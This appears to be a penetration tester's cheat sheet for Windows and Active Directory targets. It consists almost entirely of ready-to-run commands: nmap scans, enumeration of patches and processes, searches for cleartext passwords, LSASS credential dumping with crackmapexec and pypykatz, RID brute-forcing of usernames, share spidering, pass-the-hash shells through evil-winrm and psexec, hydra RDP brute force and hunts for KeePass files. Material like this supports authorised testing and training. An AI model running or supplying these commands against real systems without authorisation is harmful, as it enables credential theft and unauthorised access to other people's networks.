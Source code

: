 Port scan for Win:

```bash
nmap -sC -sV -A -Pn -p 53,88,135,139,445 $TARGET_IP -vv
```

Check OS architecture / version:
```powershell
ver
wmic os get osarchitecture
hostname
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

Get OS patches:
```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

Get OS drives:
```powershell
wmic logicaldisk get caption,description,providername
```
Get network adapters and open ports:
```powershell
ipconfig /all
netstat -ano
```

Get routes:
```powershell
route PRINT
```

Get running processes:

```powershell
tasklist /SVC
```

Get installed patches:

```powershell
wmic qfe
```

Search for cleartext passwords:
```powershell
findstr /si password *.txt
findstr /spin "password" *.*
```

Dump LSASS:
check for #SEDebugPrivilige
```powershell
whoami /priv
#run mimikatz
```

```bash
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M minidump
pypykatz lsa minidump lsass.DMP
```

Add domain NB name to /etc/hosts

```bash
crackmapexec smb $TARGET_IP -u '' -p ''
```

check for open shares

```bash
crackmapexec smb $TARGET_IP -u '' -p '' --shares
```

Enumerate users by brute forcing RID
#rid #bruteforce-rid

```shell
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000
#extract usernames
crackmapexec smb $AD_DOMAIN -u $USER -p '' --rid-brute 10000 | grep -o '\\[^ ]*' | awk -F'\\' '{print $2}' | uniq
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASSWORD -M spider_plus --spider users
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Mount windows share:
```bash
sudo mount -o username=$USER,password=$PASSWORD -t cifs \\\\$TARGET_IP\$SHARE /mnt
```

Try to connect to console:

```shell
impacket-psexec $USER:$PASSWORD@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP:

```bash
xfreerdp /v:$TARGET_IP /u:$USER
```

Connect with shared folder, and NLA :
```bash
xfreerdp /v:$TARGET_IP /sec:nla /u:$USER /p:$PASSWORD /drive:shared,/home/kali/shared
```

Brute force RDP:

```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p $PASSWORD rdp://$TARGET_IP -I
```

Check FS for keepass files:

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```